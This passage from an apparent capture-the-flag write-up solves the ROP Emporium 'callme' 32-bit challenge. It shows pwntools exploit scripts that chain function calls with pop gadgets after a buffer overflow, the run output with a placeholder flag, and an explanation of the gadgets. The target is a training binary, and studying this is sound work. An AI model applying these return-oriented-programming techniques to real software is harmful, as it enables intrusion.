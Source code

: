 ```python
payload += p32(0x08048620) # callme_two(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x080485b0) # callme_three(1,2,3)
payload += pop3
payload += p32(1)
payload += p32(2)
payload += p32(3)

log.info('Payload length: {}'.format(len(payload)))
"""
callme by ROP Emporium
32bits

Hope you read the instructions...
> """ #output from the executable
proc.recvuntil('> ') #receive output until "> "
log.info('Sending payload')
proc.sendline(payload) #send the payload
log.info('Payload sent!')
output = proc.recv()
log.success('Output: {}'.format(output))
```
And upon running: 
```bash
$ python exploit.py
[+] Starting local process './callme32': pid 109967
[*] Payload length: 104
[*] Sending payload
[*] Payload sent!
[*] Process './callme32' stopped with exit code 0 (pid 109967)
[+] Output: ROPE{a_placeholder_32byte_flag!}
```
This is good enough for me.

# Summary
I started with gahtering information like the addresses of the functions `callme_one`,`callme_two` and`callme_three`. Then I tried to find the correct padding to overwrite the return address with what I want it to be. After gathering all the information, I started writing my exploit. At first it did not succeed because I didn't use a `pop` (times 3) gadget. After editing the exploit script it finally worked, and got the flag: `ROPE{a_placeholder_32byte_flag!}`

## Things I didn't get to explain properly

### The use of the pop instruction
In the exploit development section I didn't explain why I need to pop values from the stack into registers. This is because the values will otherwise remain on the stack but incorrectly. I'll demonstrate it by using this exploit script:
```python
from pwn import *

payload = 'A'*44 # padding
payload += p32(0x080485c0) # callme_one(1,2,3)
payload += p32(0x08048620) # callme_two(1,2,3)
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x080485b0) # callme_three(1,2,3)

```